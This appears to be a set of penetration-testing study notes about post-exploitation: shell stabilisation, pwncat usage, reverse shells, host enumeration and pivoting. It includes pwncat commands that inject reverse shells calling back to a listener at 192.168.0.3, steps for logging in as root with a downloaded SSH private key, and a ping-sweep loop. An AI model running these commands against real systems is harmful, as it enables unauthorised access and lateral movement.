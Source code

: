 #### Shell Stabilization
`We can use terminal commands like clear that is important after getting reverse shell.`

```export TERM=xterm```

##### Check available languages installed in System like python, perl, etc to get a better shell.

#### Backgrounding and Foregrounding Shell
```
Background CTRL+Z
Foreground : stty raw -echo; fg 
```

#### Pwncat

```
usage : pwncat -l 2000

Self-Inject Shell
pwncat -l 1234 --self-inject /bin/sh:192.168.0.3:1234
```
![Screenshot at 2022-12-19 11-47-20](https://user-images.githubusercontent.com/85208639/208359602-1d7531c9-5f7e-469a-802d-c3ee4c011e6a.png)

#### Connect Multiple Reverse Shells with Clients

```
pwncat -l 1234 --self-inject /bin/sh:192.168.0.3:1234+3
The above command creates 4 reverse shells on the machines at port 1235,1236,1237,1234

```

Sometimes we may gain remote machine ssh secret utilizing it we may be able to get access to it.

```
1) Download the id_rsa to local machine.
2) chmod 600 id_rsa
3) ssh -i id_rsa root@192.169.0.3
```
#### Enumeration:
> There are various ways to enumerate other machines in a network


>Using tools avalable on system like using arp -a command.


>Checking /etc/hosts filein linux or C:\Windows\System32\drivers\etc\hosts file in Windows.


>Using local tools through proxy.

##### Enumerate live machines in a host 
```
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done
```![Screenshot at 2022-12-19 13-01-33](https://user-images.githubusercontent.com/85208639/208370241-ce5cabbc-3141-4239-9065-2ed4b6ea1c3f.png)




#### Pivoting Techniques
| Tunneling | Port Forwarding |
| --- | ---|
|Creating a proxy type connection through a compromised machine in order to route all desired traffic into the targeted network|Creating a connection between local port and single port on target|
|Reliable if we want to perform nmap scan on other machine or send large amount of traffic.|Reliable but only single port can be accessed at a time.|
